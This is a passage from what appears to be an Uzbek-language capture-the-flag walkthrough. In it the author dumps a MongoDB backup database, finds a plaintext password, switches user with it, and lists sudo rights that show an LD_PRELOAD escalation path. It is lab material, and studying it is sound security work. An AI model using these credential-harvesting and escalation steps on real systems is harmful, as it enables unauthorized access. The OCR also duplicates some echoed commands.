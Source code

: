 ```
#sharding:

## Enterprise-Only Options:

#auditLog:

#snmp:
```

**Mongo**ga kirib olamiz:

```
mongo
```

So'ng DBni ko'zdan kechiramiz:

```
> show databases
shshow databases
admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB
> use backup
ususe backup
switched to db backup
> show collections
shshow collections
collection
user
> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "BahamasChapp123!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
```

**webdeveloper**ning paroli topildi sinab ko'ramiz.

```
www-data@sky:/tmp$ su webdeveloper
su webdeveloper
Password: BahamasChapp123!@#

webdeveloper@sky:/tmp$ 
```

O'xshadi!

Bu userda bor imkoniyat:

```
webdeveloper@sky:~$ sudo -l
sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
```
